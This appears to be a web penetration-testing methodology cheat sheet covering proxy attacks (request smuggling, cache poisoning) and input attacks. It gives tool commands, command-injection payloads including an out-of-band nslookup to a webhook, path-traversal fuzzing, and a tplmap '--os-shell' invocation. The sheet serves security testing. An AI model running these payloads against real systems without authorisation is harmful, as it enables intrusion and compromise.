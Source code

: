 # Methodology

## Proxies
- 🟥 __Abusing hop-by-hop headers__
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- 🟥 __Cache Poisoning/Cache Deception__
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- 🟥 __HTTP Request Smuggling__ 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- 🟥 __H2C Smuggling__
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- 🟥 __Uncovering Cloudflare__
- 🟥 __XSLT Server Side Injection__

## User input
### Reflected Values
- 🟥 __Client Side Template Injection__ (Like SSTI)
- 🟥 __Command Injection__
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- 🟥 __CRLF__
```
// Tool crlfuzz
crlfuzz -u <url>
```
- 🟥 __Dangling Markup__
- 🟥 __File Inclusion/Path Traversal__ (Detected by 👉 Burp Scanner)
```
// Fast Fuzzing
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
// Deep Fuzzing (recommend)
wfuzz -X GET -c -w file_inclusion_linux.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
wfuzz -X POST -c -w file_inclusion_linux.txt --hw 0 -d "foo=FUZZ" http://10.10.10.10/nav.php

// Can use Burp Active Scanner
```
- 🟥 __Open Redirect__ (Detected by 👉 Burp Scanner)
- 🟥 __Prototype Pollution to XSS__ (NodeJS)
- 🟥 __Server Side Inclusion/Edge Side Inclusion__ (Detected by 👉 Burp Scanner)
- 🟥 __Server Side Request Forgery__
- 🟥 __Server Side Template Injection__ (Detected by 👉 Burp Scanner)
```
// Tool tplmap
python2 tplmap.py -u 'http://10.10.10.10/page?name=Box*' --os-shell
```
- 🟥 __Reverse Tab Nabbing__
- 🟥 __XSLT Server Side Injection__
- 🟥 __XSS__
- 🟥 __XSSI__
- 🟥 __XS-Search__

